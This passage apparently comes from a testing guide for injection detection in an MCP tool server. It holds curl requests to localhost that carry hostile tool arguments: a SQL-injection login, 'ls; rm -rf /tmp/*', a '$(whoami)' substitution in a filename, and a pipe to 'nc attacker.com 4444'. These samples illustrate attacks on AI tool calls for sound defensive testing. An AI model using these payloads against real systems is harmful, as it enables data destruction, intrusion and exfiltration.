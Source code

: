 ```bash
    "method": "tools/call",
    "params": {
      "name": "login",
      "arguments": {
        "username": "admin' OR '1'='1",
        "password": "anything"
      }
    }
  }'
```

### Command Injection Testing

Test command injection detection:

```bash
# Test 1: Basic command injection
curl -X POST http://localhost:9080/mcp/tools/call \
  -H "Content-Type: application/json" \
  -d '{
    "id": "cmd_test_1",
    "jsonrpc": "2.0",
    "method": "tools/call",
    "params": {
      "name": "system_command",
      "arguments": {
        "command": "ls; rm -rf /tmp/*"
      }
    }
  }'

# Test 2: Command substitution
curl -X POST http://localhost:9080/mcp/tools/call \
  -H "Content-Type: application/json" \
  -d '{
    "id": "cmd_test_2",
    "jsonrpc": "2.0",
    "method": "tools/call",
    "params": {
      "name": "process_file",
      "arguments": {
        "filename": "test.txt; $(whoami)"
      }
    }
  }'

# Test 3: Pipe-based command injection
curl -X POST http://localhost:9080/mcp/tools/call \
  -H "Content-Type: application/json" \
  -d '{
    "id": "cmd_test_3",
    "jsonrpc": "2.0",
    "method": "tools/call",
    "params": {
      "name": "data_export",
      "arguments": {
        "format": "csv | nc attacker.com 4444"
      }
    }
  }'
```
